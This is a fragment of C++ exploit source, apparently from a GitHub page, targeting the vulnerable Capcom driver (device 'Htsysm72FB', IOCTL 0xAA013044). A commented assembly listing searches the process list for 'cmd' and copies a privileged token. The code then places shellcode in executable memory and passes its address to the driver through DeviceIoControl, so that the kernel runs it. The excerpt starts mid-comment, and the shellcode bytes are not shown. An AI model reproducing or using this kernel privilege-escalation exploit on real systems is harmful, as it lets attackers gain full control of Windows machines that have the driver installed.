 ```c++
	jmp <capcomexp.FindProcess>
	mov rax,qword ptr ds:[rcx+70]
	and al,F0
	mov rcx,qword ptr ds:[rcx]
	lea r8,qword ptr ds:[rcx+168]
	mov r9b,byte ptr ds:[r8]
	cmp r9b,63
	jne <capcomexp.Find_Cmd>
	mov r9b,byte ptr ds:[r8+1]
	cmp r9b,6D
	jne <capcomexp.Find_Cmd>
	mov r9b,byte ptr ds:[r8+2]
	cmp r9b,64
	jne <capcomexp.Find_Cmd>
	jmp <capcomexp.CopyToken>
	mov qword ptr ds:[rcx+70],rax
	pop r9
	pop r8
	pop rdx
	pop rcx
	ret
*/
	const wchar_t* deviceName = L"\\\\.\\Htsysm72FB";

	const DWORD dwIoCtlCode = 0xAA013044;
	HANDLE driver = CreateFile(deviceName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	if (driver == INVALID_HANDLE_VALUE)
	{
		fprintf(stderr, "Unable to access device driver\n");
		system("pause");
	}

	else {
		fprintf(stdout, "Device Handle : %p\n", driver);
		PBYTE inBuffer = (PBYTE)VirtualAlloc(0, 105, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		fprintf(stdout, "inBuffer : %p\n", inBuffer);
		DWORD bytesReturned = 0;
		DWORD ioctlOutput = 0;


		*(PULONG_PTR)inBuffer = (ULONG_PTR)(inBuffer + 8);
		fprintf(stdout, "inBuffer = %p %p\n", inBuffer, *inBuffer);
		memcpy(inBuffer + 8, ShellCode, 105);
		ULONG_PTR target = (ULONG_PTR)(inBuffer + 8);

		if (DeviceIoControl(driver, dwIoCtlCode, &target, 8, &ioctlOutput, 4, &bytesReturned, NULL))
		{
			fprintf(stdout, "Call DeviceIoControl\n"); 
			system("pause");
		}
		else {
			fprintf(stderr, "Call DeviceIoControl Failed\n");
			system("pause");
		}

		CloseHandle(driver);
	}
}
```